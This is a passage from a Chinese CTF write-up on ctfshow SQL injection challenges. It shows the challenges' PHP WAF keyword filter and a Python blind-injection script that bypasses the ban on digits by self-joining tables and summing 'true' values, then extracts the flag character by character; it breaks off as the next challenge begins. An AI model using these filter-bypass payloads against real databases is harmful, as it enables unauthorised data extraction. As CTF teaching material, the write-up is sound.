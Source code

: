 
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
过滤了数字，那么考虑联结表字段，即联结两个ctfshow_user，条件是其中一个的pass字段能匹配到某个字符，这里还用到了mysql的数字函数，即select true返回1，select true+true返回2，这样就可以突破数字限制了
poc：
```python
'''
Author: KonDream
Date: 2021-12-08 22:49:48
LastEditors:  KonDream
LastEditTime: 2021-12-08 23:23:30
Description:  
'''
import requests
import string

def hex2true(num):
    ans = 'true'
    if num == 1:
        return ans
    for i in range(num - 1):
        ans += '+true'
    return ans


url = "http://0fb72081-e57f-4bca-a32f-19f0375ccc23.challenge.ctf.show/select-waf.php"

payload = "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},true)regexp(char({})))"

string = string.digits + string.ascii_lowercase + '{-}'

flag = 'ctfshow'

for i in range(8, 46):
    for j in string:
        data = {
            'tableName' : payload.format(hex2true(i), hex2true(ord(j)))
        }
        r = requests.post(url=url, data=data)
        if "$user_count = 43;" in r.text:
            flag += j
            print('[*] {}'.format(flag))
            break
#[*] ctfshow{d11fa31f-1474-4468-accc-85b240934aff}
```
## web186（盲注，突破数字）
```php
//对传入的参数进行了过滤
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```
上一题的姿势这个题没有过滤，所以还是可以打通的
```python
'''
Author: KonDream
```
